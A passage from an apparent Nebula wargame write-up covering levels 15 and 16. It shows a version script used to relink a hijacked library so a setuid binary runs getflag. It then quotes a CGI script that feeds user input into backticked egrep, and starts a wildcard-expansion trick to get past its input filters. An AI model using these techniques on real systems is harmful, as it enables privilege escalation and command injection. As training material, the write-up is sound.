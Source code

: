 This, [apparently](http://stackoverflow.com/questions/137773/what-does-the-no-version-information-available-error-from-linux-dynamic-linker), means that the library version number is lower on the shared object.  So we'll need to generate a version file and link it in:

```
level15@nebula:/home/flag15$ cat /tmp/versionz 
GLIBC_2.0{
  __cxa_finalize;
  __libc_start_main;
  puts;
};
GLIBC_2.1.3 {
}GLIBC_2.0;

GLIBC_2.4{
}GLIBC_2.0;
level15@nebula:/home/flag15$ 
```

Recompile with --version-script=/tmp/versionz and...

```
level15@nebula:/home/flag15$ ./flag15
Segmentation fault
level15@nebula:/home/flag15$ cat /tmp/flagged
You have successfully executed getflag on a target account
level15@nebula:/home/flag15$
```

<h3>Level 16</h3>
Level 16 has an HTTP server that hosts a simple CGI script.  In it, it parses off two parameters (username & password) from the URL, then the username is converted to uppercase and everything after a space is stripped.  It then uses it as an argument to egrep:

```
@output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
```

This level took a bit of thought and a frustrating amount of tinkering; it's obvious where the vulnerability is, but it's not so obvious what we actually need to do.  All input is run through the two filters, so we'll need to either send in post-manipulated data that will be changed back when run, or some other voodoo that'll correctly be interpreted by bash and not touched by the filters.

The easiest, and shortest, command will be a script.  Normally, you wouldn't have access to the underlying host, but we do, so for now we'll take advantage of it.  I"ll admit I spent more time Googling around for this one than any of the previous; I happened to stumble into [this](http://serverfault.com/questions/221318/bash-wildcard-expansion) Stack Overflow post about bash wildcard expansion:

```
level16@nebula:~$ pwd
/tmp
level16@nebula:~$ ls
SHELL
level16@nebula:~$ ls /*/SHELL
/tmp/SHELL
```
